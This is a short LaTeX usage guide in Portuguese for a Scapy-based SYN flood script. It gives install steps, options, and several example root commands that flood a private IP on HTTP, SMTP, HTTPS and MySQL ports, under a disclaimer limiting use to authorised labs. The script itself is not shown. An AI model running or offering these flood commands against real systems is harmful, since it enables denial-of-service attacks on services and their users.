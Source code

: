 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Aviso Legal}
Este script \`e \textbf{apenas} para fins educacionais em ambientes autorizados (laboratorial). O uso n\~ao autorizado \`e ilegal e pode violar leis de seguran\c{c}a inform\'atica.

\section{SYN Flooder}
Envia pacotes TCP SYN para simular um ataque de nega\c{c}\~ao de servi\c{c}o (SYN Flood/DoS) contra servi\c{c}os HTTP, SMTP ou outros.

\subsection{Requisitos}
\begin{lstlisting}[style=bash]
# Requer Scapy para manipulacao de pacotes raw
pip install scapy

# Requer privilegios de root/administrator
sudo python3 syn_flooder.py --target <ALVO> [OPTIONS]
\end{lstlisting}

\subsection{Uso B\'asico}
\begin{lstlisting}[style=bash]
python3 syn_flooder.py --target <ALVO> [OPTIONS]
\end{lstlisting}

\subsection{Op\c{c}\~oes}
\begin{lstlisting}[style=bash]
--target, -t    Alvo (IP ou hostname) [obrigatorio]
--port, -p      Porta TCP (default: 80/HTTP)
--duration, -d  Duracao em segundos (default: 10)
--threads, -n   Numero de threads (default: 4)
\end{lstlisting}

\subsection{Exemplos}
\begin{lstlisting}[style=bash]
# SYN Flood basico contra HTTP (porta 80)
sudo python3 syn_flooder.py --target 192.168.1.1

# SYN Flood contra SMTP (porta 25) por 30 segundos
sudo python3 syn_flooder.py --target 192.168.1.1 --port 25 --duration 30

# SYN Flood com 8 threads
sudo python3 syn_flooder.py --target 192.168.1.1 --port 443 --threads 8

# SYN Flood contra servico customizado
sudo python3 syn_flooder.py --target 192.168.1.1 --port 3306 --duration 20
\end{lstlisting}
\end{document}
